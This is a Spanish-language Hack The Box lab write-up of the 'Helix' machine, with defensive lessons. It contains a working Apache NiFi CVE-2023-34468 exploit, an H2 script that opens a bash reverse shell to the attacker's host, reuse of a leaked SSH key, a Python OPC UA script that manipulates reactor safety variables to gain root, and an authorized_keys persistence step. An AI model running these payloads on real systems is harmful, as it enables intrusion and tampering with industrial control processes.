


# Writeup: Helix (Hack The Box — Medium)

Helix es una máquina **Medium** que combina múltiples técnicas de ataque: explotación de Apache NiFi sin autenticación mediante CVE-2023-34468, abuso de OPC UA para manipular variables de un reactor industrial, y escalada de privilegios a través de un binario SUID que otorga acceso root cuando se cumplen condiciones específicas en el sistema de control. El recorrido comienza con la enumeración de subdominios que revela un servicio Apache NiFi vulnerable. Tras explotarlo, se obtiene una shell como el usuario `nifi`, donde se descubre una clave SSH privada que permite acceder al usuario `operator`. Desde allí, se analiza la documentación del sistema de control OPC UA, se desarrolla un script en Python para manipular variables críticas y abrir una "ventana de mantenimiento", y finalmente se ejecuta un binario como root para obtener acceso total al sistema.


## Fase 1: Reconocimiento

Realizamos un escaneo de puertos con Nmap para descubrir los servicios expuestos:

```bash
sudo nmap -sS --min-rate 500 -p- -n -Pn -vv 10.129.84.170 -oG allPorts
```

**Resultado:**

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Realizamos un escaneo de servicios y versiones:

```bash
nmap -sVC -p 22,80 10.129.84.170 -oN targeted
```

**Resultados clave:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://helix.htb/
```

**Observaciones clave:**

- **Dominio**: `helix.htb` — el servidor web redirige a este dominio.
- **Puerto 22 (SSH)**: Abierto, posible vector de acceso posterior.
- **Puerto 80 (HTTP)**: Servidor web nginx.

Añadimos el dominio al archivo `/etc/hosts`:

```bash
echo "10.129.84.170 helix.htb" >> /etc/hosts
```

---

## Fase 2: Enumeración de subdominios

El dominio `helix.htb` puede tener subdominios adicionales. Usamos `ffuf` para descubrirlos:

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.helix.htb" -u http://helix.htb/ -fs 154
```

**Resultado:**

```
flow                    [Status: 200, Size: 1068, Words: 110, Lines: 28, Duration: 1222ms]
```

Encontramos el subdominio `flow.helix.htb`. Lo añadimos al archivo `/etc/hosts`:

```bash
echo "10.129.84.170 flow.helix.htb" >> /etc/hosts
```

Accediendo a `http://flow.helix.htb/`, encontramos la interfaz web de **Apache NiFi**.



**Apache NiFi** es una plataforma de integración de datos que permite diseñar flujos de datos de forma visual mediante procesadores interconectados. La versión que corre en el objetivo es vulnerable a una ejecución remota de código (RCE) sin autenticación.

---

## Fase 3: Explotación de Apache NiFi (CVE‑2023‑34468)

### 3.1 Verificación de acceso sin autenticación

Apache NiFi tiene un panel de administración que, por defecto, puede requerir autenticación. Verificamos si la instancia está configurada sin login:

```bash
curl -s http://flow.helix.htb/nifi-api/access/config | jq
```

```json
{
  "config": {
    "supportsLogin": false
  }
}
```

El valor `supportsLogin: false` significa que **no hay autenticación habilitada**. Cualquier usuario puede interactuar con la API sin credenciales.

### 3.2 Verificación de permisos

Confirmamos que el usuario anónimo tiene permisos de escritura en todos los componentes, incluyendo la capacidad de ejecutar código:

```bash
curl -s http://flow.helix.htb/nifi-api/flow/current-user | jq
```

```json
{
  "identity": "anonymous",
  "anonymous": true,
  "controllerPermissions": {
    "canRead": true,
    "canWrite": true
  },
  "componentRestrictionPermissions": [
    {
      "requiredPermission": {
        "id": "execute-code",
        "label": "execute code"
      },
      "permissions": {
        "canRead": true,
        "canWrite": true
      }
    },
    {
      "requiredPermission": {
        "id": "write-filesystem",
        "label": "write filesystem"
      },
      "permissions": {
        "canRead": true,
        "canWrite": true
      }
    }
  ]
}
```

El usuario anónimo tiene `canWrite: true` en `execute-code` y `write-filesystem`. Esto confirma que podemos ejecutar código arbitrario en el sistema.

### 3.3 Vulnerabilidad CVE‑2023‑34468

Apache NiFi 1.21.0 y versiones anteriores son vulnerables a **CVE‑2023‑34468**, una ejecución remota de código a través del driver H2 y la sentencia `RUNSCRIPT`.

**Mecanismo técnico:**

1. NiFi incluye el driver H2 en el paquete `nifi-poi-nar`.
2. Se puede crear un `DBCPConnectionPool` que utilice el driver H2.
3. Un procesador `ExecuteSQL` puede ejecutar `RUNSCRIPT FROM 'http://atacante/rce.sql'`.
4. El archivo `rce.sql` contiene código Java que se ejecuta en el servidor.

**Archivo `rce.sql`:**

```sql
CREATE ALIAS IF NOT EXISTS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(
        Runtime.getRuntime().exec(command).getInputStream()
    ).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.17.44/443 0>&1');
```

### 3.4 Explotación manual con curl

**Paso 1: Obtener el ID del grupo de procesos raíz**

```bash
PG_ID=$(curl -s http://flow.helix.htb/nifi-api/flow/process-groups/root | jq -r '.processGroupFlow.id')
echo "Root PG ID: $PG_ID"
```

**Paso 2: Crear el Controller Service malicioso (DBCPConnectionPool)**

```bash
CS_ID=$(curl -s -X POST "http://flow.helix.htb/nifi-api/process-groups/$PG_ID/controller-services" \
  -H 'Content-Type: application/json' \
  -d '{"revision":{"version":0},"component":{"type":"org.apache.nifi.dbcp.DBCPConnectionPool","name":"pwn_cs","properties":{"Database Connection URL":"jdbc:h2:mem:tempdb;TRACE_LEVEL_SYSTEM_OUT=3;","Database Driver Class Name":"org.h2.Driver","Database Driver Location(s)":"work/nar/extensions/nifi-poi-nar-1.21.0.nar-unpacked/NAR-INF/bundled-dependencies/h2-2.1.214.jar"}}}' | jq -r '.id')

echo "Controller Service ID: $CS_ID"
```

**Paso 3: Habilitar el Controller Service**

```bash
CS_REV=$(curl -s "http://flow.helix.htb/nifi-api/controller-services/$CS_ID" | jq -r '.revision.version')
curl -s -X PUT "http://flow.helix.htb/nifi-api/controller-services/$CS_ID/run-status" \
  -H 'Content-Type: application/json' \
  -d "{\"revision\":{\"version\":$CS_REV},\"state\":\"ENABLED\"}" | jq
```

**Paso 4: Crear el Processor ExecuteSQL**

```bash
PROC_ID=$(curl -s -X POST "http://flow.helix.htb/nifi-api/process-groups/$PG_ID/processors" \
  -H 'Content-Type: application/json' \
  -d '{
    "revision":{"version":0},
    "component":{
      "type":"org.apache.nifi.processors.standard.ExecuteSQL",
      "name":"pwn_exec",
      "config":{
        "properties":{
          "Database Connection Pooling Service":"'"$CS_ID"'",
          "SQL select query":"RUNSCRIPT FROM '\''http://10.10.17.44/rce.sql'\''"
        },
        "autoTerminatedRelationships":["failure","success"]
      }
    }
  }' | jq -r '.id')

echo "Processor ID: $PROC_ID"
```

**Paso 5: Iniciar el Processor**

```bash
PROC_REV=$(curl -s "http://flow.helix.htb/nifi-api/processors/$PROC_ID" | jq -r '.revision.version')
curl -s -X PUT "http://flow.helix.htb/nifi-api/processors/$PROC_ID/run-status" \
  -H 'Content-Type: application/json' \
  -d "{\"revision\":{\"version\":$PROC_REV},\"state\":\"RUNNING\"}" | jq
```

### 3.5 Recepción de la reverse shell

En nuestra máquina Kali, tenemos un servidor HTTP sirviendo el archivo `rce.sql`:

```bash
python3 -m http.server 80
```

Y un listener en el puerto 443:

```bash
nc -nlvp 443
```

Al ejecutar los pasos anteriores, recibimos la conexión:

```bash
connect to [10.10.17.44] from (UNKNOWN) [10.129.84.170] 42170
bash: cannot set terminal process group (983): Inappropriate ioctl for device
bash: no job control in this shell
nifi@helix:/opt/nifi-1.21.0$ id
uid=998(nifi) gid=998(nifi) groups=998(nifi)
```

Somos el usuario **`nifi`**.

---

## Fase 4: Enumeración local y descubrimiento de clave SSH

### 4.1 Enumeración del sistema

Desde la shell de `nifi`, enumeramos el directorio `/opt`:

```bash
nifi@helix:/opt/nifi-1.21.0$ ls -la /opt/
total 16
drwxr-xr-x  4 root root     4096 Jan 25  2026 .
drwxr-xr-x 19 root root     4096 May  5 10:17 ..
drwxr-x---  9 root helixsvc 4096 May  5 10:18 helix
drwxrwxr-x 16 nifi nifi     4096 May  5 10:18 nifi-1.21.0
```

El directorio `helix` pertenece al grupo `helixsvc`, al que `nifi` no pertenece. Sin embargo, dentro del directorio de NiFi encontramos un archivo interesante:

```bash
nifi@helix:/opt/nifi-1.21.0$ ls /opt/nifi-1.21.0/support-bundles/operator_id_ed25519.bak
/opt/nifi-1.21.0/support-bundles/operator_id_ed25519.bak

nifi@helix:/opt/nifi-1.21.0$ file /opt/nifi-1.21.0/support-bundles/operator_id_ed25519.bak
/opt/nifi-1.21.0/support-bundles/operator_id_ed25519.bak: OpenSSH private key
```

### 4.2 Extracción y uso de la clave SSH

Copiamos el contenido de la clave a nuestra máquina Kali, la guardamos como `id_rsa`, y la usamos para conectarnos como el usuario `operator`:

```bash
chmod 600 id_rsa
ssh operator@helix.htb -i id_rsa
```

```bash
operator@helix:~$ id
uid=1001(operator) gid=1001(operator) groups=1001(operator)
operator@helix:~$ ls
'control systems diagram.png'  'Operator Control & Safety Guide.pdf'   user.txt
operator@helix:~$ cat user.txt
[REDACTED]
```

Obtenemos la **flag de usuario**.

---

## Fase 5: Análisis de la documentación del sistema de control

### 5.1 Descarga de archivos

Descargamos el PDF y la imagen PNG a nuestra máquina Kali para analizarlos:

```bash
scp -i id_rsa operator@helix.htb:"Operator\ Control\ &\ Safety\ Guide.pdf" .
scp -i id_rsa operator@helix.htb:"control\ systems\ diagram.png" .
```

### 5.2 Crackeo del PDF

El PDF está protegido con contraseña. Usamos `pdf2john` para extraer el hash y `john` para crackearlo:

```bash
pdf2john 'Operator Control & Safety Guide.pdf' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```bash
operator1        (Operator Control & Safety Guide.pdf)
```

La contraseña es `operator1`.

### 5.3 Análisis del diagrama y el PDF

**Diagrama PNG:**



El diagrama muestra tres bloques principales:
- **Plant Operator**: El operador envía comandos a través del servidor OPC UA.
- **Reactor Systems**: Variables del reactor físico. `Calibration Offset` es "Writable" (escribible). `Trip Active = FALSE`.
- **Control Systems**: Lógica de control. `Mode` es "Writable".
- **Safety Systems**: Sistemas críticos de seguridad (`Rods Inserted`, `Emergency Cooling`). Son **"Read Only"** (solo lectura).

**PDF "Operator Control & Safety Guide"**:

El PDF describe el funcionamiento del reactor y la lógica de seguridad:

- **Umbrales de disparo (Trip)**: Temperatura ≥ ~305°C o Presión ≥ ~75 bar.
- **Condiciones para restablecer el disparo (Reset)**:
  - Temperatura < ~288°C
  - Presión < ~70 bar
  - Modo NORMAL
  - TestOverride deshabilitado
  - CalibrationOffset = 0.0
- **Modo de Mantenimiento**:
  - Cambiar `Mode` a `MAINTENANCE`.
  - Habilitar `TestOverride`.
  - Usar `CalibrationOffset` para ajustes controlados.
- **Ventana de Operación de Mantenimiento**:
  - Se abre cuando Temperatura ≥ ~295°C o Presión ≥ ~73 bar.
  - Permanece por debajo de los umbrales de disparo.
  - Permite acceso privilegiado temporal.

**Concepto clave**: La "ventana de mantenimiento" a nivel de PLC se refleja en el sistema operativo como la condición que el binario `/usr/local/sbin/helix-maint-console` verifica para otorgar acceso root.

### 5.4 Verificación del binario SUID

Como `operator`, verificamos los permisos sudo:

```bash
operator@helix:~$ sudo -l
Matching Defaults entries for operator on helix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User operator may run the following commands on helix:
    (root) NOPASSWD: /usr/local/sbin/helix-maint-console
```

`operator` puede ejecutar `/usr/local/sbin/helix-maint-console` como `root` sin contraseña.

Intentamos ejecutarlo:

```bash
operator@helix:~$ /usr/local/sbin/helix-maint-console
Maintenance window CLOSED.
```

El binario verifica si la ventana de mantenimiento está abierta en el PLC. Actualmente está cerrada. Debemos abrirla.

---

## Fase 6: Abrir la ventana de mantenimiento mediante OPC UA

### 6.1 Contexto: OPC UA

El sistema de control utiliza **OPC UA** (Open Platform Communications Unified Architecture), un protocolo de comunicación industrial estandarizado para el intercambio de datos entre dispositivos y sistemas de control. El servidor OPC UA está corriendo en `opc.tcp://127.0.0.1:4840/helix/`.

### 6.2 Script en Python para manipular variables

`operator` no tiene el módulo `opcua` instalado, pero sí tiene `asyncua`. Creamos un script en Python para conectarnos al servidor OPC UA y manipular las variables necesarias.

**Script `exploit.py`:**

```python
import asyncio
from asyncua import Client

async def main():
    url = "opc.tcp://127.0.0.1:4840/helix/"
    
    print(f"[*] Conectando a {url}")
    async with Client(url=url) as client:
        print("[+] Conexión exitosa!")
        
        nodes = {}
        
        async def find_nodes(parent, depth=0):
            if depth > 3:
                return
            children = await parent.get_children()
            for child in children:
                browse_name = await child.read_browse_name()
                bn = browse_name.Name
                if bn in ["Mode", "TestOverride", "CalibrationOffset", "Temperature", "Pressure", "TripActive"]:
                    nodes[bn] = child
                    print(f"[+] Variable encontrada: {bn} (NodeID: {child.nodeid})")
                await find_nodes(child, depth + 1)

        root = client.nodes.objects
        await find_nodes(root)
        
        required = ["Mode", "TestOverride", "CalibrationOffset", "Temperature", "Pressure"]
        if not all(k in nodes for k in required):
            print("[-] No se encontraron todas las variables necesarias. Saliendo.")
            return

        # 1. Cambiar Mode a MAINTENANCE
        print("\n[*] Cambiando Mode a MAINTENANCE...")
        await nodes["Mode"].write_value("MAINTENANCE")
        print("[+] Mode cambiado a MAINTENANCE")

        # 2. Habilitar TestOverride
        print("[*] Habilitando TestOverride...")
        await nodes["TestOverride"].write_value(True)
        print("[+] TestOverride habilitado")

        # 3. Subir CalibrationOffset gradualmente
        print("\n[*] Iniciando rampa de CalibrationOffset...")
        offset = 0.0
        target_temp = 295.0
        target_pres = 73.0
        
        while True:
            temp = await nodes["Temperature"].read_value()
            pres = await nodes["Pressure"].read_value()
            
            if "TripActive" in nodes:
                trip = await nodes["TripActive"].read_value()
                if trip:
                    print("\n[!!!] ALARMA: ¡Se ha activado un Trip de seguridad! Abortando.")
                    break
            
            print(f"[*] Temp: {temp} °C | Pres: {pres} bar | Offset: {offset}")
            
            if temp >= target_temp or pres >= target_pres:
                print("\n[+] ¡Objetivo alcanzado! La ventana de mantenimiento debería estar abierta.")
                break
                
            offset += 0.5
            await nodes["CalibrationOffset"].write_value(offset)
            await asyncio.sleep(1)

        print("\n[*] Script finalizado.")

asyncio.run(main())
```

**Explicación del script:**

1. Se conecta al servidor OPC UA en `opc.tcp://127.0.0.1:4840/helix/`.
2. Busca en el árbol de nodos las variables necesarias.
3. Cambia `Mode` a `MAINTENANCE` y habilita `TestOverride`.
4. Incrementa gradualmente `CalibrationOffset` de 0.5 en 0.5.
5. Lee continuamente `Temperature` y `Pressure` hasta alcanzar los umbrales (295°C o 73 bar).
6. Detiene la ejecución al alcanzar el objetivo o si se activa un Trip.

### 6.3 Ejecución del script

```bash
operator@helix:~$ python3 exploit.py
[*] Conectando a opc.tcp://127.0.0.1:4840/helix/
[+] Conexión exitosa!
[+] Variable encontrada: Temperature (NodeID: ...)
[+] Variable encontrada: Pressure (NodeID: ...)
[+] Variable encontrada: CalibrationOffset (NodeID: ...)
[+] Variable encontrada: TripActive (NodeID: ...)
[+] Variable encontrada: Mode (NodeID: ...)
[+] Variable encontrada: TestOverride (NodeID: ...)

[*] Cambiando Mode a MAINTENANCE...
[+] Mode cambiado a MAINTENANCE
[*] Habilitando TestOverride...
[+] TestOverride habilitado

[*] Iniciando rampa de CalibrationOffset...
[*] Temp: 283.99933259438484 °C | Pres: 68.9997945171811 bar | Offset: 0.0
[*] Temp: 284.52936596466554 °C | Pres: 69.01480273649386 bar | Offset: 0.5
[*] Temp: 285.05789766643227 °C | Pres: 69.0292106270341 bar | Offset: 1.0
...
[*] Temp: 295.373210829318 °C | Pres: 69.21105224276248 bar | Offset: 11.0

[+] ¡Objetivo alcanzado! La ventana de mantenimiento debería estar abierta.
[*] Script finalizado.
```

La temperatura ha alcanzado 295°C. La ventana de mantenimiento debería estar abierta.

### 6.4 Ejecución del binario como root

```bash
operator@helix:~$ sudo /usr/local/sbin/helix-maint-console
[+] Privileged maintenance access granted
[!] Window expires in 100 seconds
[!] Session will be terminated automatically
root@helix:/home/operator# whoami
root
```

Obtenemos una shell como **root**. La ventana de mantenimiento tiene una duración limitada, por lo que debemos actuar rápidamente.

---

## Fase 7: Persistencia como root

### 7.1 Generación de clave SSH en nuestra máquina Kali

```bash
ssh-keygen -t rsa -b 2048 -N "" -f id_rsa_root
```

### 7.2 Adición de la clave pública en el sistema

Reiniciamos el ataque para obtener una nueva ventana de mantenimiento y añadir nuestra clave pública al archivo `authorized_keys` de root:

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/Lwd7beLg3Rtnx/HRCc+lBVf50gdyibn0f2oDi+nql5s4q/GettRE8KLqXqx1RHdg8Kg6qrJJc4giDmKe8lWeQRzeQ/Xn0tKUwvxyLiGMTcI2EoKMkH68pzG6gxPFicMO1Ha/f6fqc5PuhmNTcIOQdbKxytLK8Ofkf9PeWqUm02U55nKfyJpUpCttnTqYQG5n2NEcc8OHA4EO7kdI5OGjSlmJX/U0cP+cVncoTXOkDTFiZkH1RXn2U5JBM4d85yuf5hN8nEQxDZKq43Res75K6/6n/DKKJc0h3Zh2iuYHGttRsRrvqKHj/jMFcNK0tXbPMn0iYuNRk2GPhfAgKOP5 kali@kali" > /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys
```

### 7.3 Conexión SSH como root

```bash
ssh root@helix.htb -i id_rsa_root
```

```bash
root@helix:~# whoami
root
root@helix:~# cat /root/root.txt
[REDACTED]
```

Obtenemos la **flag de root**.

---

## 📌 Conclusión

Helix es una máquina **Medium** que combina:

1. **Enumeración de subdominios** para descubrir `flow.helix.htb` (Apache NiFi).
2. **Explotación de Apache NiFi** (CVE‑2023‑34468) para obtener una shell como `nifi`.
3. **Descubrimiento de una clave SSH** en el directorio de NiFi para acceder como `operator`.
4. **Análisis de la documentación del sistema de control** para entender la lógica de seguridad.
5. **Manipulación de variables OPC UA** para abrir la ventana de mantenimiento.
6. **Ejecución de un binario como root** para obtener acceso privilegiado.
7. **Persistencia** mediante una clave SSH para acceso posterior.

---

## 📚 Lecciones aprendidas

1. **La falta de autenticación en servicios de integración de datos es crítica**  
   NiFi permitía acceso anónimo a la API y otorgaba permisos de escritura sobre componentes sensibles. La defensa requiere autenticación, mínimo privilegio, segmentación de red y controles de autorización.

2. **Los sistemas de control industrial (ICS) pueden tener lógicas complejas que permiten escalada**  
   La escalada a root no fue una vulnerabilidad tradicional, sino el abuso de la lógica de negocio del sistema de control. La "ventana de mantenimiento" estaba diseñada para ser segura, pero al simular las condiciones correctas, se pudo abrir.

3. **La documentación del sistema es un activo valioso para el atacante**  
   El PDF y el diagrama PNG proporcionaron información crítica sobre cómo funciona el sistema y cómo manipularlo. Nunca se debe almacenar documentación sensible en servidores accesibles.

4. **Los cambios en variables críticas deben estar protegidos y auditados.**  
   Variables como `Mode`, `TestOverride` y `CalibrationOffset` deberían requerir autenticación, autorización explícita, registro detallado y alertas ante modificaciones anómalas.

5. **La persistencia es clave para mantener el acceso**  
   La ventana de mantenimiento era temporal, por lo que añadir una clave SSH aseguró el acceso posterior sin necesidad de repetir el proceso.

6. **La enumeración local es esencial**  
   La clave SSH fue encontrada porque se exploró el directorio de NiFi. La enumeración sistemática de archivos y directorios es fundamental en cualquier compromiso.

